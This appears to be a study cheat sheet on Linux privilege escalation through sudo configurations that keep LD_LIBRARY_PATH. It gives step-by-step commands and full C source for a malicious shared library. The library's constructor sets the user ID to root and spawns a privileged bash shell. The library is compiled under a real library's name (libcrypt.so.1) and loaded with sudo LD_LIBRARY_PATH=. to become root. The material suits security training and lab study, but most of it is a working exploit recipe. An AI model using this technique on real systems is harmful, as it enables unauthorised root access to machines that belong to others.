



LD_LIBRARY_PATH
How it works LD_LIBRARY_PAT privilege escalation
• The LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are
searched for first.
• The ldd command can be used to print the shared libraries used by a program:
target@debian:~$ ldd <program>
• By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH
to its parent directory, the program will load our shared library instead.
ACTION:
0. Check if
env_keep option includes the
LD_LIBRARY_PATH environment variable
1. Run ldd against
any allowed program using sudo

target@debian:~$ ldd <programBinary>
 Hijacking shared objects
using this method is hit or miss.
We have to try each one from the list until we can find the one that work
and become root(with point 4)
2. Create a file (library_path.c) with the following contents:
target@debian:~$ vim library_path.c
#i --> insert text
#Esc --> to finish to insert the text
#:wq --> write and quit
#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
It should spawn a shell when loaded
3. Compile library_path.c into the shared object file chosen
(example: libcrypt.so.1)
target@debian:~$ gcc -o libcrypt.so.1 -shared -fPIC library_path.c
4. Run binary of the program using sudo, while setting the LD_LIBRARY_PATH environment variable to the
current path (where we compiled library_path.c)
target@debian:~$ sudo LD_LIBRARY_PATH=. <programBinary>
Bibliography:
https://www.contextis.com/en/blog/linux-privilege-escalation-via-dynamically-linked-shared-object-library